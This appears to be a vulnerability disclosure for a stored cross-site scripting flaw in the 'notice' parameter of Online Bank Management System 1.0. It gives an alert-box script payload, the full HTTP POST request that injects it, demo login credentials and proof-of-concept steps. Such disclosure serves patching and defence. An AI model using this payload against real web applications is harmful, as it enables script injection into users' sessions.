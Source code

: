 # Online Bank Management System - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Online Bank Management System - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online Bank Management System does not filter the content correctly at the "notice" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("XSS")</script>`

```
POST /mnotice.php?id=2 HTTP/1.1
Host: 192.168.67.14:8089
Content-Length: 69
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.14:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.14:8089/mnotice.php?id=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3fd6gf7a23dtf98p5b7769nlff
Connection: close

userId=2&notice=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E&send=
```

#### Proof of Concept

1、Login CMS with administrator account. username: manager@manager.com Password: manager

2、Send a notification to Ali Khan with the content- `<script>alert("XSS")</script>`

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/alikhan.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/xsspayload.png)

3、Log in to Ali Khan account after sending successfully, and find that the pop-up window is successful username: some2@gmail.com Password: some2

![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/userlogin.png)



![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/userxss.png)

5、Click View Notice to trigger again.



![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/viewnotice.png)
